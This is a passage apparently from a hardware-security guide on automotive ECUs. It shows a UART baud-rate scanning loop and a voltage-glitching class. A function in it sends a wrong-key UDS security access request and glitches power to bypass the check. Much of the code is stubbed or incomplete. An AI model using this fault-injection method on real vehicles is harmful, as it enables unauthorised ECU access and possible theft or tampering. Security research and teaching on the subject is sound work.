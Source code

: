 ```python
                # Try common baud rates
                baud_rates = [9600, 19200, 38400, 57600, 115200]
                
                for baud in baud_rates:
                    print(f"Trying TX:{tx_pin} RX:{rx_pin} Baud:{baud}")
                    
                    # This would require actual hardware setup
                    # ser = serial.Serial(f'/dev/ttyUSB{tx_pin}', baud, timeout=1)
                    # data = ser.read(100)
                    # if b'boot' in data.lower() or b'debug' in data.lower():
                    #     print(f"Found UART: TX:{tx_pin} RX:{rx_pin} Baud:{baud}")
                    
            except Exception as e:
                continue
```

### Power Analysis

#### Voltage Glitching
```python
class VoltageGlitcher:
    """Simple voltage glitch generator"""
    
    def __init__(self, power_control_pin):
        self.power_pin = power_control_pin
        
    def glitch(self, delay_ms, duration_us):
        """Generate voltage glitch at specific timing"""
        
        time.sleep(delay_ms / 1000.0)  # Delay to target instruction
        
        # Cut power briefly
        self.set_power(False)
        time.sleep(duration_us / 1000000.0)  # Microsecond glitch
        self.set_power(True)
        
    def set_power(self, state):
        """Control power to target ECU"""
        # Implementation depends on hardware setup
        pass

# Usage for bypassing security checks
def glitch_security_check():
    """Glitch during security access validation"""
    
    glitcher = VoltageGlitcher(power_pin=1)
    
    # Send security access request
    send_message([0x27, 0x02, 0x00, 0x00])  # Wrong key
    
    # Glitch during validation (timing is critical)
    glitcher.glitch(delay_ms=10, duration_us=100)
    
    # Check if bypass successful
    response = read_response()
    if response and response[0] == 0x67:
        print("Security bypass successful!")
```
